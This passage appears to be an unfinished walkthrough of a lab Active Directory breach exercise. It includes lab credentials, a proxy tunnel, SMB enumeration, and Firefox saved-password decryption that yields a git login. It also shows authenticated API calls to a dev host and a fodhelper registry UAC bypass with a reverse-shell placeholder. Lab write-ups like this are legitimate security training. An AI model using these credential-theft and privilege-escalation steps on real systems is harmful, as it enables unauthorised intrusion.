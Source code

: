 

![](Cover_.png)



## Lab Intro

In this Assumed-Breach Scenario, your main objective is getting domain administrator privileges in the "ifrit.vl" Domain. The company created the following low-privileged user accounts in the "eu-ifrit.vl" domain for you:


```
# Users
Caroline.Hunter
Michelle.Jordan
Wendy.French
Joyce.Johnson
Kathleen.Walker
Tina.Dawson
Gavin.Dixon
Robin.Smith
Marcus.Taylor
Jemma.Smith
Annette.King
Mohammed.Ward
Laura.Robinson
Henry.Jordan
Bernard.Turner
Peter.Nash
Jade.Perry
Barry.Cox
Martin.Marsden
Grace.Dunn

# Password
PenEuIfrit527#
```

You can use these accounts to log into a VDI environment at [https://vdi02.eu-ifrit.vl/RDWeb/](https://vdi02.eu-ifrit.vl/RDWeb/) (172.16.40.225).

Besides reaching the main objective, your secondary goal is to complete the objective without triggering any detection. If you manage to do so, please write a message to xct. Please do not RDP to DEV05, a user is working on a critical project there.


#### Hints & Comments

- Make sure you have good enumeration methodology that includes at least: AD, ADCS, Shares, Ports, Services, Installed Programs, Users on Machines. Good enumeration is key - both here and in real environments.
    
- The 172.16.41.0/24 Subnet is behind a network firewall - you won't be able to reach your own attacker machine on all ports (but on some).
    
- Not everything you see is exploitable - go for the low hanging fruits as you would on real engagements.




## INITIAL_ACCESS



```
Nmap scan report for vdi02.eu-ifrit.vl (172.16.40.225)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
443/tcp  open  https
445/tcp  open  microsoft-ds
593/tcp  open  http-rpc-epmap
3389/tcp open  ms-wbt-server
```

Starting a proxy to reach the internal networks !

```shell
ssh -R 8080 kali@10.8.0.163 -p 22 -N
```

```
└─# proxychains -q crackmapexec smb 172.16.41.1/24
```



![](Read_Access_Share.png)


Here inside home-backup --> We found a vhdx file [ transferring it to the windows vm found some intresting files ]

Copy both files from Jack_Smith -->  Profile folder to the Attacker Box kali !  

 ![](Backup_vhdx.png)




└─# python firepwd.py  

decrypting login/password pairs

 http://git.ifrit.vl :: jack.smith@ifrit.vl :: JigokuNoKaen10



http://172.16.40.150/ --> Login 


└─# proxychains curl -X POST http://dev05.eu-ifrit.vl:13300/api/query -H "Content-Type: application/json" -H "Authorization: Basic $(echo -n 'dev:dev-5381' | base64)"   -d '{"query":"cpu get caption"}' -v


└─# proxychains curl -X POST http://dev05.eu-ifrit.vl:13300/api/query -H "Content-Type: application/json" -H "Authorization: Basic ZGV2OmRldi01Mzgx"   -d '{"query":"cpu get caption"}' -v



https://gitbook.seguranca-informatica.pt/privilege-escalation-privesc/uac-bypass

```
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value powershell.exe -Force
New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
cmd -> fodhelper

Spaw anything:
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value 'your-reverse-shell' -Force
```





